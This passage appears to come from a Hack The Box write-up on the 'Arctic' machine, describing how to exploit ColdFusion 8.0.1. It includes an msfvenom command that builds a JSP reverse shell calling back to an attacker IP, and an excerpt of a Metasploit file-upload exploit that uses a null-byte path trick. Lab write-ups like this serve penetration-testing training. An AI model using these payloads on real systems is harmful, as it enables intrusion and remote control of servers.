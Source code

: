 // JSP stands for Java Server Pages. and seens CloudFusion is java program .jsp its the file format we can upload.

// we will do that with msfvenom

    $ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.17.8 LPORT=1444 -f raw > exp.jsp
    Payload size: 1498 bytes


### == Upload reverse shell payload: way 1 ==

// When we was searching for exploits with searsploit i notice ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Metasploit)

![Image 13](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Arctic/13.png)

// In the description we can see the values and method for upload the file 

    $ searchsploit -x cfm/webapps/16788.rb
-----

    .......

    dbl = Rex::MIME::Message.new
    dbl.add_part(payload.encoded, "application/x-java-archive", nil, "form-data; name=\"newfile\"; filename=\"#{rand_text_alpha_upper(8)}.txt\"")
    file = dbl.to_s
    file.strip!

    print_status("Sending our POST request...")

    res = send_request_cgi(
        {
          'uri'           => "#{datastore['FCKEDITOR_DIR']}",
          'query'         => "Command=FileUpload&Type=File&CurrentFolder=/#{page}%00",
          'version'       => '1.1',
          'method'        => 'POST',
          'ctype'         => 'multipart/form-data; boundary=' + dbl.bound,
          'data'          => file,
          }, 5)
